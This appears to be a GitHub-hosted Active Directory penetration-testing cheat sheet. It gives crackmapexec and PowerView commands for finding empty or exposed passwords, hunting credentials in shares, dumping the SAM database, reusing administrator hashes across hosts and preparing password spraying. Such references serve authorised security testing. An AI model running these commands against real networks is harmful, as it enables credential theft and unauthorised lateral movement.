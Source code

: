 #### Check if user has empty password
- Or use powershell runas through RDP!
```
crackmapexec smb <DC IP> -u <USER> -p ''
```

## Password in description
#### Check for passwords in the description
```
Get-DomainUser | Where-Object -Property Description | Select-Object samaccountname, description
```

## Shares
- Mainly looking for credentials, for example Deploymentshare has creds most of the times

#### Enumerate shares with PowerView
```
Find-DomainShare -CheckShareAccess

Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*
```

#### Crackmapexec
```
cme smb <HOST FILE> -u <USER> -p <PASSWORD> --shares
```

## Reuse local admin password
#### Dump sam database
- Requires local admin access
```
crackmapexec smb <HOST> -u <USER> -p <PASSWORD> -d <DOMAIN> --sam
```

#### Reuse local administrator password against all other hosts
```
crackmapexec smb hosts.txt -u administrator -H <HASH> -d .
```

## Password spraying
#### Retrieve a list of usernames
```
crackmapexec ldap <DC FQDN> -u <USER> -p <PASSWORD> --users
```

```
Get-DomainUser | Select-Object -expandproperty samaccountname
```

#### Retrieve the current password policy
```
crackmapexec smb -u <USER> -p <PASSWORD> --pass-pol
```
